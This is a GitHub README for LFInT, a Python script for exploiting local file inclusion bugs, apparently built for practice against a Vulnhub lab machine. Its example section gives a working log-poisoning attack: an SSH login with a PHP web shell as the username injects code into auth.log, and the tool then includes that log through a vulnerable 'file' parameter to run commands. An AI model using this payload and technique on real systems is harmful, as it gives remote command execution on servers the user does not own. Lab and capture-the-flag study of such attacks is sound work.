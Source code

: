 # LFInT
LFInT is a script to interface with local file inclusion vulnerabilities.

Relies on being able to read/write to a file, reading the file with curl

Currently only tested on vulnhub vm evilscience


## Requirements
Python 2.7.X

pycurl, argparse, sys, os, StringIO

## Example
### using evilscience
`ssh '<?php echo system($_GET[cmd]); ?>'@192.168.150.129`

`./LFInT -u http://192.168.150.129/index.php?file=/var/log/auth.log -v cmd`
